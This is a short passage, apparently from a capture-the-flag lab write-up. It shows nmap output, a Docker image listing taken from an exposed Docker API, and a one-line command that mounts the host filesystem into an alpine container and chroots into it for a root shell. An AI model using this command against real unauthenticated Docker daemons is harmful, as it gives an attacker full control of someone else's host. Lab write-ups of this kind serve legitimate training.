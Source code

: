 ```bash

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 200.18 seconds
```
Enumerated away
[Archive/Docker/DockerHacking](https://github.com/7RU7H/Archive/Docker/DockerHacking)

```bash
root@ip-10-10-128-153:~# docker -H 10.10.201.106:2375 image ls
REPOSITORY                                    TAG                 IMAGE ID            CREATED             SIZE
exif-api-dev                                  latest              4084cb55e1c7        16 months ago       214MB
exif-api                                      latest              923c5821b907        16 months ago       163MB
frontend                                      latest              577f9da1362e        16 months ago       138MB
endlessh                                      latest              7bde5182dc5e        16 months ago       5.67MB
nginx                                         latest              ae2feff98a0c        17 months ago       133MB
debian                                        10-slim             4a9cd57610d6        17 months ago       69.2MB
registry.access.redhat.com/ubi8/ubi-minimal   8.3                 7331d26c1fdf        17 months ago       103MB
alpine                                        3.9                 78a2ce922f86        2 years ago         5.55MB

docker -H 10.10.230.170:2375 run -v /:/mnt --rm -it -d alpine:3.9 chroot /mnt sh # you get an root owned sh shell last flag is /root/root.txt
```
